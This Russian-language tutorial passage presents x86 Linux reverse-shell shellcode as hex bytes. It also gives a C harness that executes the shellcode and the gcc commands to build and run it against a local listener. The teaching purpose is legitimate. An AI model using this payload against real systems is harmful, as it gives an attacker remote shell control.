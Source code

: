 Наш shellcode:            
```bash
"\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89\xe1
\xcd\x80\x92\xb0\x66\x68\x7f\x01\x01\x01\x66\x68\x11\x5c
\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\x43\xcd\x80
\x6a\x02\x59\x87\xda\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b
\x41\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e
\x89\xe3\xcd\x80"
```

Затем заменяем код в `run.c` следующим:
```cpp
/*
run.c - небольшой каркас программы для выполнения shellcode
*/
// вставляем наш байт-код
char code[] = 
"\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89"
"\xe1\xcd\x80\x92\xb0\x66\x68\x7f\x01\x01\x01\x66\x68"
"\x11\x5c\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1"
"\x43\xcd\x80\x6a\x02\x59\x87\xda\xb0\x3f\xcd\x80\x49"
"\x79\xf9\xb0\x0b\x41\x89\xca\x52\x68\x2f\x2f\x73\x68"
"\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";

int main(int argc, char **argv) {
  int (*func)();             // указатель на функцию
  func = (int (*)()) code;   // func указывает на наш shellcode
  (int)(*func)();            // выполняем код в code[]
  // если программа вернула 0 вместо 1,
  // значит, shellcode сработал
  return 1;
}
```

Компилируем, подготавливаем слушатель и запускаем:          
```bash
gcc -z execstack -m32 -o run run.c
./run
```

![run C code](./images/14/2021-10-16_14-03.png){width="80%"}       
